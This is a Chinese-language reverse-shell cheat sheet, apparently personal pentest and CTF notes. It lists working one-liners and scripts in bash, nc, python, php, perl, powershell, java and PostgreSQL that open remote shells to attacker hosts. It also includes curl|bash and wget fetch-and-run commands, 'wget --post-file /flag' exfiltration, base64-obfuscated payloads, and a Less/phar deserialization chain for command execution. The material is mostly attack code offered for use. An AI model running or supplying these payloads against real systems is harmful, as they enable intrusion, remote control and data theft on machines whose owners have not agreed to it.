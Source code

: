 [反弹 Shell 大全与原理](https://mp.weixin.qq.com/s/ClqEAqpPxlscNJphSBfhKA)
[Ladon | 22 种反弹 Shell 方法 openssl\\java\\py\\php\\perl\\lua\\curl\\socat ncat ruby](https://mp.weixin.qq.com/s/oPFxDxaUb9eGm-zrJzP55g)

- TheFatRat 创建反弹 shell

## 反弹 Shell

https://www.cnblogs.com/xiaozi/p/13493010.html

如果是 php_shell, `?c=system('wget http://xxx')` , `wget xxx` 这里要进行 url 编码

windows 上传 `certutil -urlcache -split -f http://11.1.63.37/nc.exe nc.exe`

nc 参数

```shell
-l              listen mode, for inbound connects
-L              listen harder, re-listen on socket close
-v              verbose [use twice to be more verbose]
```

**bash 连接**

```shell
# 攻击机器
nc -lvp 7777

# 被攻击机 , 不要在zsh
/bin/bash -i >& /dev/tcp/攻击机ip/7777 0>&1
curl http://攻击机ip:2126/sa.sh|bash

## curl: shell.txt,内容为bash -i >& /dev/tcp/攻击机ip/7777 0>&1
curl 192.168.1.20|bash
nc 127.0.0.1 7777 -e /bin/bash
nc 127.0.0.1 7777 -e cmd.exe                       // Windows
nc 127.0.0.1 7777 -e c:\windows\system32\cmd.exe   // Windows

## nc连接无 -e 参数
mknod /tmp/backpipe p
/bin/sh 0</tmp/backpipe | nc 1.1.1.1 7777 1>/tmp/backpipe

nc -e /bin/sh 192.168.50.161 4444
## python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.32.1",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
## php
php -r '$sock=fsockopen("192.168.32.1",7777);exec("/bin/sh -i <&3 >&3 2>&3");'
## perl - Linux
perl -e 'use Socket;$i="47.101.57.72";$p=2333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
## perl - Windows
perl -e 'use Socket;$i="47.101.57.72";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

## telnet , 攻击机监听2个端口 nc -lvvp 4445, nc -lvvp 4444
telnet 192.168.50.161 4444 | /bin/bash | telnet 192.168.50.161 4445
```

**powershell**

```bat
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.183.1:8080/powercat.ps1');powercat -c 192.168.183.1 -p 4444 -e cmd
```

**利用被攻击机 ip**
其他都是需要攻击机 ip，这个则相反。我的理解是需要攻击机 ip 的相当于把 shell 弹给攻击机(所以攻击机 ip 和 bash 在一行代码)，而这个相当于在本地端口开个 shell,攻击机访问端口来拿 shell

```shell
nc 1.1.1.1 7777

# 被攻击机输入
nc -lvp 7777 -e /bin/bash
```

python 方式 2

```py
#!/usr/bin/python
#-*- coding: utf-8 -*-
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.20.151",7777)) #更改localhost为自己的外网ip,端口任意
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

客户机

```
curl 192.168.1.20/shell.py|python
```

**wget** 反弹 shell

```
靶机:
wget --post-file /flag http://ip:port/
wget http://wgf4242.51vip.biz/shell.txt -O /tmp/x.php && php /tmp/x.php
wget 192.168.20.130/shell.txt -O /tmp/x.php && php /tmp/x.php
http://xxx/wget?argv=1&argv=--post-file&argv=/flag&argv=http://wgf4242.51vip.biz:34578
vps攻击机: nc -lvp 2333
```

shell.txt 内容

```php
<?php
$sock=fsockopen("1.1.1.1",7777);//localhost为自己的外网ip，端口任意
exec("/bin/sh -i <&3 >&3 2>&3");
?>
```

python -m http.server --bind 0.0.0.0 8080

**java** 反弹 shell
[Runtime 执行 linux 命令时管道符不生效](https://mp.weixin.qq.com/s/EhatzI7QVmh_RQZYOWNBYg)

```java
public class Revs {
public static void main(String[] args) throws Exception {
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/192.168.99.242/1234;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
```

Runtime 执行 linux 命令时管道符不生效, 用 base64 编码内容

```sh
#bash
bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyNC4yLjMuNC8yMjIzIDA+JjEg}|{base64,-d}|{bash,-i}
#python
python -c exec('L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyNC4yLjMuNC8yMjIzIDA+JjEg'.decode('base64'))
```

**postgres** 反弹 shell

```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM '/bin/bash -i >& /dev/tcp/11.1.xx.xx/1234 0>&1';
-- COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```

### less/phar 反弹 shell

原理简单来说是利用 less.php 编译 Less，在编译的过程中，利用`@import (inline)`和`data`伪协议将文件写入到`assets/forum.css`中，再用`data-uri('phar://./assets/forum.css')`触发 phar 反序列化实现命令执行

这里的反序列化链由 phpggc 生成：

- 这里反弹 shell 需要一点小技巧，我这里的打法是：在 29999 端口的 HTTP 服务里放一个 1.txt，然后在 39999 端口监听准备拿 shell

```sh
perl -e 'use Socket;$i="1.1.1.1";$p=39999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

再用 phpggc 生成

```bash
php phpggc -p tar -b Monolog/RCE6 system "curl 1.1.1.1:29999/1.txt|sh"
```

payload 如下, 在自定义 css 处写入以下 payload, 保存

```bash
@import (inline) 'data:text/css;base64,dGVzdC50eHQAAAAAAA......';
```

访问一下，phar 内容成功写入

```bash
http://39.99.150.188/assets/forum.css?v=2166f2e8
```

然后再编辑一下，用 data-uri 做 phar 反序列化触发命令执行

```css
.test {
  content: data-uri("phar://./assets/forum.css");
}
```

### 无公网 IP 反弹 shell

https://www.bilibili.com/video/BV1pq4y1U7CR

方法 1:
花生壳开 127.0.0.1 54321 端口 得到 tcp://397j302b56.zicp.vip:37932
本机 nc -lvvnp 54321
远程 /?c=system("nc wgf4242.51vip.biz 39672 -e /bin/sh");

方法 2:
花生壳开虚拟机地址 192.168.0.102 54321 得到 tcp://397j302b56.zicp.vip:37932
本机 A IP 是 192.168.0.100, 电脑 B 192.168.0.100, 虚拟机 C 属于电脑 B 是 192.168.247.128
如何让 A 与 C 互通
虚拟机 C nc -lvvnp 54321
花生壳 PC$ netsh interface portproxy add v4tov4 listenaddress=192.168.0.102 listenport=54321 connectaddress=192.168.247.128 connectport=54321

bash -i >& /dev/tcp/397j302b56.zicp.vip/22599 0>&1
